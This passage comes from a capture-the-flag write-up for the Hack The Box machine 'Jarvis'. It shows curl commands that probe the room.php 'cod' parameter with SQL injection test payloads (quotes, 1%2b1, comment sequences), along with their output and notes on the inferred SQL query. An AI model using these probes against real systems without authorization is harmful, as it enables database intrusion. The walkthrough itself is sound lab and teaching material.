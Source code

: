 	# Payload 2
	1"
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# curl -s 'jarvis.htb/room.php?cod=1"' | grep -oP "room\.php\?cod\=\d"
	Nothing displayed
	
	# Payload 3 
	1+1
	1%2b1 
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# curl -s 'jarvis.htb/room.php?cod=1%2b1' | grep -oP "room\.php\?cod\=\d"
	room.php?cod=2
	
	# Payload 4 
	'#'
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# curl -s 'jarvis.htb/room.php?cod=1#' | grep -oP "room\.php\?cod\=\d"
	room.php?cod=1
	
	# Payload 5
	'-- -'
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# curl -s 'jarvis.htb/room.php?cod=1--+-' | grep -oP "room\.php\?cod\=\d"
	room.php?cod=1

	------------------------------Hypothesis------------------------------------
	# Hypothesis, no quotes are used
	SELECT * FROM room WHERE id=$_GET["cod=1"]	

	# Syntax Error, because of unclosed quote `'`
	SELECT * FROM room WHERE id=1'
	
	# Syntax Error, because of unclosed quote `"`
	SELECT * FROM room WHERE id=1"
	
	# It works, valid SQL statement
	SELECT * FROM room WHERE id=1+1
	
	# It works w/ or w/o the comments, it means there are no further SQL commands behind it, or the SQL commands behind does not affect our query.
	SELECT * FROM room WHERE id=1#
	SELECT * FROM room WHERE id=1-- -
	```
